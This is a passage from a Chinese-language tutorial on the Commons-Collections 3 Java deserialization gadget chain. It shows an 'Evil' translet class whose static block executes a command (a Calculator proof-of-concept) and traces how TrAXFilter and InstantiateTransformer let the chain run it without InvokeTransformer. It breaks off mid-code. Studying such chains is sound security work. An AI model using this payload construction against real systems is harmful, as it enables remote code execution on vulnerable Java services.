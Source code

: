 Evil类定义为：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

其实直到这里我们要是将其改成之前的InvokeTransformer形式也能构成Transformer数组进而形成完整的利用链了，但是我们前面提过，CC3的最终目的是构造出一条不需要利用InvokeTransformer也能执行命令的链。这里我们继续往上找调用了newTransformer()的方法，发现`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`的构造函数中就调用了newTransformer()

```java
public TrAXFilter(Templates templates)  throws
  TransformerConfigurationException
{
  _templates = templates;
  _transformer = (TransformerImpl) templates.newTransformer();
  _transformerHandler = new TransformerHandlerImpl(_transformer);
  _useServicesMechanism = _transformer.useServicesMechnism();
}
```

接下来利用一个新的Transformer InstantiateTransformer来调用TrAXFilter的构造方法：

```java
public Object transform(Object input) {
  try {
    if (input instanceof Class == false) {
      throw new FunctorException(
        "InstantiateTransformer: Input object was not an instanceof Class, it was a "
        + (input == null ? "null object" : input.getClass().getName()));
    }
    Constructor con = ((Class) input).getConstructor(iParamTypes);
    return con.newInstance(iArgs);

  } catch (NoSuchMethodException ex) {
    throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
  } catch (InstantiationException ex) {
    throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
  } catch (IllegalAccessException ex) {
```